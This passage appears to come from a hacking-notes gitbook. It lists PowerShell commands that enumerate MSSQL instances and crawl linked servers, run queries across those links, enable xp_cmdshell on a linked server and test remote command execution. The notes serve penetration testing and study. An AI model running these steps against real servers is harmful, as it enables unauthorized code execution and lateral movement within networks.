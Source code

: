 ![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1067'%3e%3cg data-evernote-id='1068' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='1069' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='1070' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

70## basic instance information
71Get-SQLInstanceLocal
72​
73## more verbose information:
74Get-SQLServerInfo -Verbose -Instance SQLSRV\SQLEXPRESS
75​
76## crawl for databse links:
77Get-SqlServerLinkCrawl -Verbose -Instance SQLSRV\SQLEXPRESS

##

Execute DB Query via MSSQL Link[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1105'%3e%3cg data-evernote-id='1106' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1107' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1108' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#execute-db-query-via-mssql-link)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1112'%3e%3cg data-evernote-id='1113' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='1114' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='1115' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

Get-SqlServerLinkCrawl -Verbose -Instance SQLSRV\SQLEXPRESS -Query "select name from master..sysdatabases" | Select-Object -ExpandProperty CustomQuery

##

Enable xp_cmdshell / Execute Commands[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1127'%3e%3cg data-evernote-id='1128' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1129' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1130' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#enable-xp_cmdshell-execute-commands)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1134'%3e%3cg data-evernote-id='1135' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='1136' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='1137' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

79## enable xp_cmdshell:

80Get-SQLQuery -Instance SQLSRV\SQLEXPRESS -query "EXECUTE('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT ""sqlsrv.burmat.local"""

81​
82## test rce:

83Get-SQLServerLinkCrawl -Instance "SQLSRV\SQLEXPRESS" -Query "exec master..xp_cmdshell 'whoami'" | Select-Object -ExpandProperty CustomQuery

#

KERBEROS[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1162'%3e%3cg data-evernote-id='1163' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1164' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1165' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#kerberos)
